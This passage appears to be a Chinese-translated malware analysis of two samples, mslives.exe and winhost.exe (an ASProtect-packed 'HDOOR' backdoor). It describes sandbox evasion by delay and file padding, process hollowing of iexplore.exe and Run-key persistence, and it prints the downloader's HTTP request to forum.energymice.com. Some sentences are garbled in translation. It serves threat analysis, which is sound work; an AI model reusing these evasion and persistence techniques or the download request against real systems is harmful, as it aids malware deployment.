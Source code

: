 ![enter image description here](http://drops.javaweb.org/uploads/images/6ccf151432cdfda056c8252cf3034dbf0f025c34.jpg)

mslives.exe
-----------

该样本与GoogleUpdate.exe有类似的文件结构.但是它没有部署类似的反沙盒功能.

运行第一次时，在进行它的安装计划前将sleeps300秒。之后，如下所示它创建某自身副本

```
%ProgramFiles%\Windows NT\Accessories\Microsoft\mslives.exe

```

然而，该副本的文件末尾写入了大量垃圾数据，它的大小比自身大小大了100MB。它将对该文件进行1000次的写入100KB操作.为避开沙盒这里做了两件事.首先,该恶意软件不创建自身副本（让该恶意软件的行为不寻常并出现 使该恶意软件行为不寻常并可能因有利操作而出现于沙盒.通常恶意软件操作是为了创建某确切的自身副本。其次,多次写操作事件可能超过沙盒的限制.释放的文件副本的大小让沙盒可信任

![enter image description here](http://drops.javaweb.org/uploads/images/0fd0bb39fe86820717f8a5146fc877ff2e577f24.jpg)

它用CreateProcess执行它的副本接着检查是否作为Iexplore.exe运行，如果不是,它将创建一个被挂起的iexplore.exe进程并将它的代码通过覆盖iexplore.exe的主模块的方式注入其中, 它创建隐藏的windows窗口名和类名“111111”, 然后创建一自启动注册表入口如下（让其在每次机器启动时自动启动）

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run 
  Valuue: msliveupdate
  Data: %ProgramFilesDir%\Windows NT\Accessories\Microsoft\mslives.exe

```

**_Payload_**

该样本只有一个目的，该目的是下载并执行从 `forum.energymice.com.`中下载的文件

```
GET /view/login.asp HTTP/1.1
Content-Type: */*
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Win32; 5.1)
Host: forum.energymice.com
Cache-Control: no-cache

```

将下载的文件放入`%TEMP%`文件夹中并执行它.不幸的是，在我们分析的同时，用于下载的URL没返回任何程序

![enter image description here](http://drops.javaweb.org/uploads/images/5f6c436906f3fb7893992f801776440d50dcc53a.jpg)

winhost.exe
-----------

* * *

不想其它文件,该文件明显被加壳了.PEID识别壳如下:

```
ASProtect 1.2x – 1.3x [Registered] -> Alexey Solodovnikov

```

该文件是一个命名为”HDOOR”的后门因为我们在其自身发现的该字符串。我们也发现其它有趣的字符串(指明被使用的保护程序)
